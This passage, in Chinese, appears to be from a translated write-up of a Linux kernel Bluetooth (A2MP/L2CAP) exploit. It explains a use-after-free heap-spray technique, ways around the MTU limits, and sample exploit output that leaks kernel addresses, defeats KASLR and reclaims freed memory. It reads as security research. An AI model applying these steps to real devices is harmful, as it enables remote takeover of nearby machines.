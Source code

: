 ```
    ...
  } chan_timer; /* 0x110  0x58 */
  ...
  /* size: 792, cachelines: 13, members: 87 */
  /* sum members: 774, holes: 9, sum holes: 18 */
  /* paddings: 4, sum paddings: 16 */
  /* last cacheline: 24 bytes */
};
```  
  
事实证明，该对象属于 A2MP 通道，可以通过破坏通道来释放它。这很有用，因为它允许我们应用与 Use-After-Free 攻击相同的策略。  
  
考虑以下技术：  
1. 泄露对象的地址struct l2cap_chan  
。  
  
1. struct l2cap_chan  
通过破坏 A2MP 通道来释放物体。  
  
1. 重新连接 A2MP 通道并使用堆原语喷射 kmalloc-1024 板。  
  
1. 有可能它会回收前一个对象的地址struct l2cap_chan  
。  
  
换句话说，原来属于的地址struct l2cap_chan  
现在可能属于我们了！同样，使用的技术非常基础，但在使用 SLUB 分配器的 Ubuntu 上工作得相当可靠。令人担忧的是，当重新连接 A2MP 通道时，前者struct l2cap_chan  
可能会在堆喷射可以回收该位置之前被新通道重新占用struct l2cap_chan  
。如果是这种情况，可以使用多个连接，以便能够继续喷射，即使另一个连接已关闭。  
  
请注意，在 kmalloc-1024 slab 中分配对象比在 kmalloc-128 slab 中分配对象稍微复杂一些，因为：  
- ACL MTU 通常小于 1024 字节（可以使用 检查hciconfig  
）。  
  
- A2MP 通道的默认 MTU 为L2CAP_A2MP_DEFAULT_MTU=670  
字节。  
  
这两种 MTU 限制都很容易绕过。也就是说，我们可以通过将请求分割成多个 L2CAP 数据包来绕过 ACL MTU，我们可以通过发送响应L2CAP_CONF_MTU  
并将其配置为 0xffff 字节来绕过 A2MP MTU。同样，不清楚为什么蓝牙规范没有明确禁止在未发送请求的情况下解析配置响应。  
  
让我们尝试一下这项技术：  
```
$ gcc -o exploit exploit.c -lbluetooth && sudo ./exploit XX:XX:XX:XX:XX:XX
[*] Opening hci device...
[*] Connecting to victim...
[+] HCI handle: 100
[*] Connecting A2MP channel...
[*] Leaking A2MP kernel stack memory...
[+] Kernel address: ffffffffad2001a4
[+] KASLR offset: 2b600000
[*] Preparing to leak l2cap_chan address...
[*] Leaking A2MP kernel stack memory...
[+] l2cap_chan address: ffff98ee5c62fc00
[*] Spraying kmalloc-1024...
```  
  
请注意，两个泄漏指针的最高有效字节有何不同。通过观察较高的字节，我们可以做出有根据的猜测（或检查 Linux 文档）来确定它们是属于段、堆还是堆栈。为了确认我们确实能够回收的地址struct l2cap_chan  
，我们可以使用以下命令检查受害者机器上的内存：  
```
$ sudo gdb /boot/vmlinuz /proc/kcore
(gdb) x/40gx 0xffff98ee5c62fc00
0xffff98ee5c62fc00:  0x4141414141414141  0x4242424242424242
0xffff98ee5c62fc10:  0x4343434343434343  0x4444444444444444
0xffff98ee5c62fc20:  0x4545454545454545  0x4646464646464646
0xffff98ee5c62fc30:  0x4747474747474747  0x4848484848484848
...
0xffff98ee5c62fd00:  0x6161616161616161  0x6262626262626262
0xffff98ee5c62fd10:  0x6363636363636363  0x6464646464646464
```